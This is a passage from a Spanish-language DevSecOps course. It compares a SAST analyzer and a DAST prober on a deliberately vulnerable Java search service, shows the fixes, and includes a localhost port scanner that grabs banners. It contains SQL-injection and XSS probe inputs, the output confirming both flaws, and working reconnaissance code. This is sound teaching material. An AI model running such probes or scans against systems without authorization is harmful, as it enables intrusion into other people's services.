        hallazgos.add("una comilla produce " + r2.statusCode() + " y el error se muestra: " + primera);
    }

    for (String cabecera : List.of("Content-Security-Policy", "X-Content-Type-Options")) {
        if (r1.headers().firstValue(cabecera).isEmpty()) hallazgos.add("falta la cabecera " + cabecera);
    }
    IO.println(base + ": " + hallazgos.size() + " hallazgo(s)");
    hallazgos.forEach(h -> IO.println("  " + h));
    System.exit(hallazgos.isEmpty() ? 0 : 1);
}
```

```text
$ java Sast.java ServicioBusqueda.java; echo "salida: $?"
ServicioBusqueda.java: 3 hallazgo(s)
  línea 11  CWE-798 secreto escrito en el código: CLAVE_ADMIN
  línea 31  CWE-89  SQL armado concatenando texto: st.executeQuery
  línea 46  CWE-328 algoritmo de hash débil: MD5
salida: 1
```

```text
$ java -cp ~/herramientas/h2-2.3.232.jar ServicioBusqueda.java
búsqueda en 127.0.0.1:8070; huella de la clave: 9364dce8cc7d1f013b31b37c0a7418fe
```

```text
$ java Dast.java; echo "salida: $?"
http://127.0.0.1:8070: 4 hallazgo(s)
  XSS reflejado: la entrada vuelve en el HTML sin escapar
  una comilla produce 500 y el error se muestra: Syntax error in SQL statement "SELECT nombre FROM producto WHERE nombre LIKE '%'%[*]'"; SQL statement:
  falta la cabecera Content-Security-Policy
  falta la cabecera X-Content-Type-Options
salida: 1
```

**Explicación por partes.**
- `Sast.java`, línea 16: `tarea.parse()` produce un árbol por archivo; `TreePathScanner` visita cada nodo.
- Línea 28: `Tree.Kind.PLUS` es la concatenación; con un `PreparedStatement` el argumento sería un literal y no se
  marcaría.
- Línea 32: el algoritmo se lee del literal; si llegara de una variable, esta regla no lo vería (falso negativo).
- Línea 42: la regla de secreto se basa en el nombre; una constante llamada `VALOR` con una clave pasaría.
- `Dast.java`, línea 19: el marcador es único para no confundirlo con texto normal de la página.
- Línea 23: la comilla rompe el SQL armado con `+`; el `500` con `Syntax error in SQL statement` confirma la
  inyección **y** que el servicio filtra detalles internos.
- La comparación es el centro del tema: el SAST encontró el secreto y el MD5, que desde afuera son invisibles; el DAST
  encontró el XSS y las cabeceras, para los que el SAST no tenía regla. Los dos encontraron la inyección, cada uno a su
  manera.

#### Problema resuelto 5.2
Corrige los tres defectos y vuelve a pasar los dos analizadores.

**Razonamiento:**
1. La clave llega del entorno (Tema 2); el hash pasa a SHA-256.
2. El texto se escapa antes de entrar al HTML; la consulta usa `PreparedStatement` y el dato va aparte.
3. El error se registra en el servidor y el usuario recibe un mensaje genérico.
4. Se agregan las dos cabeceras.

```java
// ServicioSeguro.java — la misma búsqueda sin los tres defectos
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpServer;
import java.net.InetSocketAddress;
import java.net.URLDecoder;
import java.security.MessageDigest;
import java.sql.Connection;
import java.sql.DriverManager;
import java.util.HexFormat;

static Connection base;

void main() throws Exception {
    String claveAdmin = System.getenv().getOrDefault("CLAVE_ADMIN", "");      // el secreto llega del entorno
    base = DriverManager.getConnection("jdbc:h2:mem:catalogo");
    try (var st = base.createStatement()) {
        st.execute("CREATE TABLE producto (sku VARCHAR(10), nombre VARCHAR(40))");
        st.execute("INSERT INTO producto VALUES ('A-1', 'Caja grande'), ('B-7', 'Cinta')");
    }
    HttpServer s = HttpServer.create(new InetSocketAddress("127.0.0.1", 8071), 0);
    s.createContext("/buscar", this::buscar);
    s.start();
    IO.println("búsqueda segura en 127.0.0.1:8071; huella de la clave: " + huella(claveAdmin).substring(0, 16) + "…");
}

String escapar(String texto) {                                                  // HTML: cinco caracteres especiales
    return texto.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;")
            .replace("\"", "&quot;").replace("'", "&#39;");
}

void buscar(HttpExchange ex) throws IOException {
    String q = URLDecoder.decode(ex.getRequestURI().getRawQuery().replace("q=", ""), StandardCharsets.UTF_8);
    StringBuilder html = new StringBuilder("<h1>Resultados para " + escapar(q) + "</h1><ul>");
    int codigo = 200;
    try (var ps = base.prepareStatement("SELECT nombre FROM producto WHERE nombre LIKE ?")) {
        ps.setString(1, "%" + q + "%");                                         // el dato viaja aparte del SQL
        try (var rs = ps.executeQuery()) {
            while (rs.next()) html.append("<li>").append(escapar(rs.getString(1))).append("</li>");
        }
    } catch (Exception error) {
        codigo = 500;
        html.append("<p>No se pudo completar la búsqueda.</p>");                // el detalle va al registro, no al usuario
        System.err.println("error en búsqueda: " + error);
    }
    byte[] cuerpo = html.append("</ul>").toString().getBytes(StandardCharsets.UTF_8);
    ex.getResponseHeaders().set("Content-Type", "text/html; charset=utf-8");
    ex.getResponseHeaders().set("Content-Security-Policy", "default-src 'self'");
    ex.getResponseHeaders().set("X-Content-Type-Options", "nosniff");
    ex.sendResponseHeaders(codigo, cuerpo.length);
    try (var salida = ex.getResponseBody()) {
        salida.write(cuerpo);
    }
}

String huella(String texto) throws Exception {
    return HexFormat.of().formatHex(MessageDigest.getInstance("SHA-256").digest(texto.getBytes(StandardCharsets.UTF_8)));
}
```

```text
$ java Sast.java ServicioSeguro.java; echo "salida: $?"
ServicioSeguro.java: 0 hallazgo(s)
salida: 0
$ CLAVE_ADMIN=prueba java -cp ~/herramientas/h2-2.3.232.jar ServicioSeguro.java
búsqueda segura en 127.0.0.1:8071; huella de la clave: 655e786674d9d3e7…
$ java Dast.java http://127.0.0.1:8071; echo "salida: $?"
http://127.0.0.1:8071: 0 hallazgo(s)
salida: 0
```

**Explicación por partes.**
- `ServicioSeguro.java`, línea 14: el secreto ya no es un literal; la regla CWE-798 no se activa.
- Líneas 26–29: `escapar` cambia los cinco caracteres especiales del HTML; el marcador del DAST vuelve como
  `&lt;b id=dast7&gt;x&lt;/b&gt;` y ya no es una etiqueta.
- Líneas 35–36: con `?`, la comilla es un carácter más del dato; la consulta no falla y no hay `500`.
- Línea 43: el detalle del error va a `System.err`, no a la respuesta.
- Los dos analizadores terminan en 0. Eso dice que estas reglas y estas sondas no encuentran nada, no que el servicio
  sea seguro.

> **Error común.** Escapar en la entrada en vez de en la salida. Si guardas `&lt;` en la base, cada pantalla y cada
> reporte tendrán que des-escapar. Se valida al entrar y se escapa al salir, según el destino (HTML, SQL, URL).

> **Error común.** Correr el DAST contra un ambiente que comparte datos con producción. Las sondas crean registros,
> disparan correos y llenan los registros de errores. Usa un ambiente de pruebas con datos ficticios.

> **Buena práctica.** Pon el SAST en cada pull request (es rápido y no necesita el servicio) y el DAST después de
> desplegar en el ambiente de pruebas. El SCA, en los dos momentos.

> **Prevenir errores.** Cada vez que una revisión o un incidente encuentre un defecto que las herramientas no vieron,
> convierte ese defecto en una regla o en una sonda nueva.

#### Del laboratorio a producción
Semgrep, SpotBugs con FindSecBugs, CodeQL y SonarQube hacen SAST para Java con cientos de reglas y siguen el flujo de
datos desde la entrada hasta el SQL, no solo la forma del argumento. OWASP ZAP hace DAST: rastrea el sitio, prueba
cada formulario y revisa cabeceras (`zap-baseline.py` es su modo pasivo para pipelines). Las tres familias se combinan;
ninguna reemplaza a las otras.

#### Checkpoint 5.1
Si cambias en `ServicioBusqueda.java` la consulta por `String sql = "SELECT ... '%" + q + "%'"; st.executeQuery(sql);`,
¿la encuentra el SAST? ¿Y el DAST?

Respuesta: el SAST no: el argumento de `executeQuery` ahora es una variable, no una suma (falso negativo de una regla
que solo mira la forma). El DAST sí: el servicio se comporta igual y la comilla sigue dando `500`.

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Paso 1 · Prepara la carpeta
Crea `mkdir -p ~/labs/seguridad/devsecops/pruebas && cd ~/labs/seguridad/devsecops/pruebas` y copia los cuatro
archivos del tema.

#### Paso 2 · Pasa el SAST
Ejecuta `java Sast.java ServicioBusqueda.java` y comprueba tres hallazgos con sus CWE.

#### Paso 3 · Pasa el DAST
Arranca el servicio vulnerable y ejecuta `java Dast.java`. Comprueba cuatro hallazgos.

#### Paso 4 · Corrige y repite
Arranca `ServicioSeguro.java` con `CLAVE_ADMIN=prueba` y pasa los dos analizadores. Comprueba cero hallazgos en cada uno.

#### Paso 5 · Encuentra un falso negativo
Aplica el cambio del Checkpoint 5.1 en una copia del servicio vulnerable y comprueba que el SAST ya no marca la línea
del SQL.

#### Resumen
- El **SAST** lee el código sin ejecutarlo; el **DAST** prueba el servicio en marcha; el **SCA** revisa los componentes.
- Cada hallazgo tiene un **CWE** que dice qué tipo de error es y cómo se corrige.
- Toda herramienta tiene **falsos positivos** y **falsos negativos**; por eso se combinan.
- Una **sonda** provoca un comportamiento observable sin hacer daño.
- Las **cabeceras de seguridad** limitan el daño de lo que se escape.

#### Ejercicio verificable 1
Básico. ¿Cuál de los cuatro hallazgos del DAST no podría encontrar nunca un SAST que solo lee `ServicioBusqueda.java`?

Respuesta esperada: ninguno de forma garantizada, pero las cabeceras son las más claras: pueden agregarse en un proxy o
en la configuración del servidor, fuera del código. Solo observando la respuesta real se sabe si llegan al navegador.

#### Ejercicio verificable 2
Intermedio. Agrega a `Sast.java` una regla CWE-79 que marque las llamadas a `append` cuyo argumento sea una suma que
incluya la variable `q`. ¿Qué encuentra en el servicio vulnerable?

Respuesta esperada: la línea 28 de `ServicioBusqueda.java`, donde el constructor de `StringBuilder` recibe
`"<h1>Resultados para " + q + "</h1><ul>"`, no es una llamada a `append`: la regla no la ve. Hay que revisar también
`new StringBuilder(...)` (`NewClassTree`). Escribir reglas obliga a pensar en todas las formas del mismo defecto.

#### Ejercicio verificable 3
Reto. Agrega al DAST una sonda que envíe `q=%` y compare la cantidad de `<li>` con la de `q=Caja`. ¿Qué indica una
diferencia en el servicio seguro?

Respuesta esperada: `%` devuelve los dos productos y `Caja` uno. En el servicio seguro no es una inyección: `%` es el
comodín de `LIKE` y llega como dato. Es un comportamiento de negocio por decidir (¿se permite buscar «todo»?). No toda
diferencia es una vulnerabilidad; la sonda da una pista y una persona la interpreta.

#### En el trabajo
Los equipos ponen un SAST en el pull request con las reglas que más falsos negativos evitan y menos ruido producen, un
DAST nocturno o tras cada despliegue a pruebas, y el SCA en ambos. Cuando una herramienta produce un hallazgo, la
revisión pregunta: «¿es real?», «¿qué CWE es?» y «¿qué regla o sonda habría que agregar para no repetirlo?».

</details>

### Tema 6: Reconocimiento de tu propio laboratorio: puertos, estados y banners · Avanzado · 45 min

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

#### Objetivos
Al terminar este tema podrás:
- explicar cómo un escaneo TCP connect distingue un puerto abierto, cerrado y filtrado;
- implementar un escáner con sockets y tiempos límite que también lee el banner de cada servicio;
- interpretar qué revela un banner y por qué conviene reducirlo;
- establecer el alcance y la autorización antes de escanear cualquier cosa.

**Conceptos clave:** superficie de ataque, reconocimiento, escaneo TCP connect, puerto abierto, cerrado y filtrado, banner, alcance y autorización

#### El problema
El equipo cree que el servidor de pruebas solo expone la API en el puerto 18080. Un auditor externo encuentra, además,
un servicio de administración remota en el 18022 que anuncia su versión exacta. Nadie lo había documentado. Antes de
que lo encuentre otra persona, ¿cómo inventarías lo que tu propio laboratorio deja abierto?

Este tema usa **puerto**, **cliente y servidor** (Fundamentos, Módulo 3, Tema 1), los **hilos** (Fundamentos, Módulo 5,
Tema 2) y la **superficie de ataque** como parte del **modelo de amenazas** (Tema 1 del Módulo 0).

#### Glosario del tema

**superficie de ataque**
- **Definición técnica:** conjunto de puntos por los que un atacante puede interactuar con un sistema: puertos, rutas HTTP, formularios, archivos que se leen, colas que se consumen.
- **En palabras sencillas:** todas las puertas y ventanas del edificio.
- **Dónde se rompe la comparación:** en un edificio las ventanas se ven desde la calle; en un servidor, una puerta abierta solo se ve si alguien la prueba.
- **Ejemplo:** los puertos 18022 y 18080 del laboratorio.
- **Error típico:** inventariar solo lo que está documentado.

**reconocimiento**
- **Definición técnica:** fase de recopilación de información sobre un objetivo (direcciones, puertos, servicios, versiones) previa a cualquier prueba activa.
- **En palabras sencillas:** recorrer el edificio para hacer el plano antes de revisar las cerraduras.
- **Dónde se rompe la comparación:** el atacante hace la misma fase; hacerla tú primero es lo que te da ventaja.
- **Ejemplo:** `Escaneo.java` recorre los puertos 18000 a 18099 de `127.0.0.1`.
- **Error típico:** hacer reconocimiento sobre sistemas ajenos «solo para ver»: es ilegal en muchos países sin autorización.

**escaneo TCP connect**
- **Definición técnica:** técnica que intenta completar el saludo de tres pasos de TCP con cada puerto mediante la llamada normal `connect` del sistema operativo.
- **En palabras sencillas:** tocar cada puerta y esperar a ver si alguien abre.
- **Dónde se rompe la comparación:** abrir la puerta deja registro: el servicio y el firewall ven una conexión completa.
- **Ejemplo:** `conexion.connect(new InetSocketAddress(host, puerto), esperaMs)` en la línea 32.
- **Error típico:** no poner tiempo límite: un puerto filtrado deja el escáner esperando muchos segundos por puerto.

**puerto abierto, cerrado y filtrado**
- **Definición técnica:** abierto, un proceso acepta la conexión; cerrado, el sistema responde con un rechazo (RST) porque nadie escucha; filtrado, no llega respuesta porque un firewall descarta los paquetes.
- **En palabras sencillas:** te abren; te dicen «aquí no es»; o nadie contesta.
- **Dónde se rompe la comparación:** «nadie contesta» puede ser un firewall o una red lenta; el estado filtrado es una inferencia por tiempo.
- **Ejemplo:** en Java, abierto termina bien, cerrado lanza `ConnectException` y filtrado, `SocketTimeoutException`.
- **Error típico:** contar los filtrados como cerrados: un puerto filtrado puede tener un servicio detrás que otra red sí alcanza.

**banner**
- **Definición técnica:** texto que un servicio envía al aceptar una conexión o en su primera respuesta, que suele incluir el protocolo, el producto y la versión.
- **En palabras sencillas:** el letrero de la puerta: «Servidor SSH, versión tal».
- **Dónde se rompe la comparación:** un letrero se puede pintar falso; un banner también, y por eso herramientas como `nmap -sV` hacen más pruebas antes de afirmar una versión.
- **Ejemplo:** `SSH-2.0-OpenSSH_9.6 laboratorio` en el puerto 18022.
- **Error típico:** dejar versiones exactas en los banners de producción: facilitan buscar avisos aplicables.

**alcance y autorización**
- **Definición técnica:** documento previo que define qué direcciones, puertos, fechas y técnicas cubre una prueba de seguridad, firmado por quien tiene autoridad sobre esos sistemas.
- **En palabras sencillas:** el permiso por escrito del dueño del edificio, con la lista de puertas que puedes tocar.
- **Dónde se rompe la comparación:** en la nube, el dueño del servidor no es dueño de la red: el proveedor también tiene reglas.
- **Ejemplo:** este tema solo escanea `127.0.0.1` con servicios que el propio programa levanta.
- **Error típico:** escanear la IP pública de la empresa desde la casa sin avisar a nadie.

#### ► CÓMO FUNCIONA
El programa levanta dos servicios de laboratorio con un banner cada uno. Luego lanza cien intentos de conexión en
paralelo, uno por puerto, con un tiempo límite de 300 ms. Si la conexión se completa, lee hasta 64 bytes y se queda con
la primera línea como banner. Si el sistema la rechaza, el puerto está cerrado; si se agota el tiempo, filtrado.



#### Problema resuelto 6.1
Escanea los puertos 18000 a 18099 de tu propio equipo después de levantar dos servicios de laboratorio.

**Razonamiento:**
1. Los servicios se levantan en el mismo programa con `ServerSocket` y un hilo que responde el banner a cada conexión.
2. Un `ExecutorService` de 50 hilos prueba los cien puertos en paralelo; cada tarea devuelve un `Resultado`.
3. El tipo de excepción decide el estado.
4. Solo se imprimen los abiertos; el resumen dice cuántos se probaron.

```java
// Escaneo.java — escaneo de puertos SOLO contra tu propio equipo o laboratorio, con autorización escrita
import java.net.ConnectException;
import java.net.InetSocketAddress;
import java.net.ServerSocket;
import java.net.Socket;
import java.net.SocketTimeoutException;
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;
import java.util.concurrent.Future;

record Resultado(int puerto, String estado, String banner) {
}

// Laboratorio: levantamos dos servicios locales para tener algo que descubrir
void servicio(int puerto, String banner) throws IOException {
    ServerSocket escucha = new ServerSocket();
    escucha.setReuseAddress(true);
    escucha.bind(new InetSocketAddress("127.0.0.1", puerto));
    Thread.ofPlatform().daemon().start(() -> {
        while (true) {
            try (Socket conexion = escucha.accept()) {
                conexion.getOutputStream().write(banner.getBytes(StandardCharsets.UTF_8));
            } catch (IOException ignorada) {
                // el cliente cerró antes de leer
            }
        }
    });
}

Resultado probar(String host, int puerto, int esperaMs) {
    try (Socket conexion = new Socket()) {
        conexion.connect(new InetSocketAddress(host, puerto), esperaMs);   // conexión TCP completa
        conexion.setSoTimeout(esperaMs);
        String banner;
        try {
            byte[] leidos = conexion.getInputStream().readNBytes(64);
            banner = new String(leidos, StandardCharsets.UTF_8).lines().findFirst().orElse("");
        } catch (SocketTimeoutException sinBanner) {
            banner = "";
        }
        return new Resultado(puerto, "abierto", banner);
    } catch (ConnectException rechazada) {
        return new Resultado(puerto, "cerrado", "");
    } catch (SocketTimeoutException sinRespuesta) {
        return new Resultado(puerto, "filtrado", "");
    } catch (IOException otro) {
        return new Resultado(puerto, "error: " + otro.getMessage(), "");
    }
}

void main() throws Exception {
    servicio(18022, "SSH-2.0-OpenSSH_9.6 laboratorio\r\n");
    servicio(18080, "HTTP/1.1 200 OK\r\nServer: inventario-dev\r\n\r\n");

    String objetivo = "127.0.0.1";
    List<Resultado> resultados = new ArrayList<>();
    try (ExecutorService ejecutor = Executors.newFixedThreadPool(50)) {
        List<Future<Resultado>> futuros = new ArrayList<>();
        for (int puerto = 18000; puerto < 18100; puerto++) {
            int p = puerto;
            futuros.add(ejecutor.submit(() -> probar(objetivo, p, 300)));
        }
        for (Future<Resultado> futuro : futuros) {
            resultados.add(futuro.get());
        }
    }
    List<Resultado> abiertos = resultados.stream().filter(r -> r.estado().equals("abierto")).toList();
    IO.println("Escaneados " + resultados.size() + " puertos de " + objetivo + ": " + abiertos.size() + " abiertos");
    abiertos.forEach(r -> IO.println("  %d/tcp %-8s %s".formatted(r.puerto(), r.estado(), r.banner())));
}
```

```text
$ java Escaneo.java
Escaneados 100 puertos de 127.0.0.1: 2 abiertos
  18022/tcp abierto  SSH-2.0-OpenSSH_9.6 laboratorio
  18080/tcp abierto  HTTP/1.1 200 OK
```

**Explicación por partes.**
- Líneas 15–28: cada servicio de laboratorio escucha solo en `127.0.0.1` y escribe su banner al aceptar.
- Línea 32: la conexión con tiempo límite; línea 33, otro tiempo límite para la lectura del banner.
- Líneas 36–37: `readNBytes(64)` lee como máximo 64 bytes; `lines().findFirst()` se queda con la primera línea. Por eso
  el servicio HTTP muestra solo `HTTP/1.1 200 OK` y no su línea `Server: inventario-dev`.
- Líneas 42–47: cada excepción se traduce a un estado. En `127.0.0.1` no hay firewall: los 98 puertos sin servicio
  responden al instante como cerrados.
- Líneas 57–66: cien tareas, cincuenta hilos; con `try`-con-recursos el ejecutor espera a que terminen todas.

> **Error común.** Interpretar «no hay banner» como «no hay servicio». Muchos protocolos esperan a que el cliente hable
> primero (HTTP es uno): el puerto está abierto y no dice nada hasta recibir una petición.

> **Error común.** Escanear con miles de conexiones simultáneas contra un servidor de pruebas compartido. Puedes
> agotar sus conexiones y tumbarlo: limita la concurrencia, como el `newFixedThreadPool(50)` de la línea 57.

> **Buena práctica.** Compara cada escaneo con un inventario esperado y alerta por diferencias: un puerto nuevo abierto
> es un cambio que alguien debe explicar.

> **Prevenir errores.** Haz que los servicios escuchen en `127.0.0.1` cuando solo se usan localmente; escuchar en
> `0.0.0.0` los expone a toda la red.

#### Del laboratorio a producción
`nmap` es la herramienta estándar: `nmap -sT -p 18000-18099 127.0.0.1` hace este mismo escaneo connect, y `nmap -sV`
identifica servicios y versiones con pruebas adicionales. En la nube, los grupos de seguridad y las listas de control
de acceso definen qué puertos llegan desde internet, y servicios de inventario de recursos los revisan; los
proveedores publican qué pruebas de penetración permiten sin aviso previo.

#### Checkpoint 6.1
Si cambias en la línea 18 la dirección de escucha a `0.0.0.0`, ¿cambia la salida del escaneo? ¿Cambia el riesgo?

Respuesta: la salida no cambia, porque el escaneo se hace desde la misma máquina. El riesgo sí: los dos servicios
quedan accesibles desde cualquier equipo de la red. Por eso el reconocimiento se repite desde fuera de la máquina, desde
la red que ve un atacante.

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

#### Paso 1 · Prepara la carpeta
Crea `mkdir -p ~/labs/seguridad/devsecops/reconocimiento && cd ~/labs/seguridad/devsecops/reconocimiento` y copia
`Escaneo.java`.

#### Paso 2 · Escanea
Ejecuta `java Escaneo.java` y comprueba dos puertos abiertos con sus banners.

#### Paso 3 · Cuenta los cerrados
Cambia la línea final para imprimir también cuántos resultados son `cerrado`. Comprueba 98.

#### Paso 4 · Lee el banner completo
Cambia `findFirst()` por un `collect` que una todas las líneas con ` | ` y comprueba que aparece `Server: inventario-dev`.

#### Paso 5 · Escribe el inventario
Escribe `superficie.md` con cada puerto abierto, el servicio, quién es el dueño y si debe estar expuesto.

#### Resumen
- La **superficie de ataque** son todos los puntos por los que se puede interactuar con el sistema.
- El **reconocimiento** inventaría esa superficie antes que el atacante.
- El **escaneo TCP connect** distingue **abierto**, **cerrado** y **filtrado** por la respuesta y por el tiempo.
- El **banner** revela el producto y a veces la versión.
- Solo se escanea dentro del **alcance** y con **autorización** por escrito.

#### Ejercicio verificable 1
Básico. ¿Qué estado esperas para el puerto 18050? ¿Por qué no aparece en la salida?

Respuesta esperada: `cerrado`: nadie escucha y el sistema rechaza la conexión al instante. No aparece porque el
programa solo imprime los abiertos.

#### Ejercicio verificable 2
Intermedio. Cambia el banner del puerto 18022 a `SSH-2.0-Servicio` y vuelve a escanear. ¿Qué información perdió un
atacante, y qué no?

Respuesta esperada: la línea queda `18022/tcp abierto  SSH-2.0-Servicio`. Ya no ve el producto ni la versión exacta;
sigue sabiendo que hay un SSH en ese puerto. Reducir el banner quita pistas, no cierra la puerta.

#### Ejercicio verificable 3
Reto. ¿Qué tendrías que agregar al programa para que el modo «filtrado» aparezca alguna vez en tu equipo, sin tocar el
firewall?

Respuesta esperada: no se puede obtener de forma fiable en `127.0.0.1`: el sistema siempre responde. Una opción de
laboratorio es apuntar a una dirección de una red privada que no exista en tu red, donde los paquetes no reciben
respuesta y vence el tiempo; aun así, el resultado depende del enrutador. Un filtrado real se observa contra un equipo
propio con firewall, dentro del alcance autorizado.

#### En el trabajo
El reconocimiento de la propia superficie se hace de forma continua: escaneos programados de las direcciones públicas,
comparación con el inventario esperado y alertas por puertos nuevos. En una prueba de penetración contratada, el
documento de alcance y autorización es lo primero que se firma.

</details>

### Proyecto 18: el pipeline seguro del inventario

<details open>
<summary><strong>Capa 1 — Lectura</strong></summary>

Vas a unir los seis temas en un pipeline que protege el servicio de inventario desde el pull request hasta el
despliegue. Cada etapa es una puerta con código de salida, y el pipeline completo se puede ejecutar en tu equipo con un
script antes de subirlo a la plataforma de CI.

**Qué debe cumplir:**
- El árbol resuelto de dependencias pasa por la puerta de SCA con excepciones que vencen (Tema 1).
- La configuración del servicio se guarda cifrada con cifrado de sobre; la clave maestra no está en el repositorio y
  se rota una vez durante el proyecto (Tema 2).
- El workflow del pipeline pasa el revisor de menor privilegio sin hallazgos altos ni críticos (Tema 3).
- Cada construcción genera un SBOM y el despliegue verifica los hashes antes de arrancar el servicio (Tema 4).
- El SAST corre en el pull request y el DAST corre contra el servicio desplegado en pruebas (Tema 5).
- Un escaneo de puertos del ambiente de pruebas se compara con un inventario esperado (Tema 6).

</details>

<details>
<summary><strong>Capa 2 — Construcción</strong></summary>

**Pruebas que debes ejecutar y su evidencia esperada:**

| Prueba | Cómo | Evidencia esperada |
|---|---|---|
| Dependencia vulnerable | agregar `commons-text:1.9` al árbol | la puerta de SCA falla con `CVE-2022-42889` y el pipeline se detiene |
| Secreto manipulado | intercambiar dos valores cifrados | el servicio no arranca: `AEADBadTagException` |
| Workflow inseguro | agregar `permissions: write-all` | el revisor falla con R2 |
| Artefacto alterado | agregar un byte al jar después de construir | la verificación del SBOM falla antes de desplegar |
| Inyección SQL | volver a concatenar el SQL de la búsqueda | el SAST la marca en el pull request y el DAST obtiene `500` |
| Puerto inesperado | abrir un servicio en otro puerto del ambiente de pruebas | el escaneo informa la diferencia con el inventario |

**Entregables:** el script `pipeline.sh` que ejecuta las seis puertas en orden y se detiene en la primera que falla;
`politica-seguridad.md` con las severidades que bloquean y el proceso de excepciones; y `adr-012.md` con las
herramientas profesionales que reemplazarían cada puerta en la plataforma de CI y por qué.

</details>
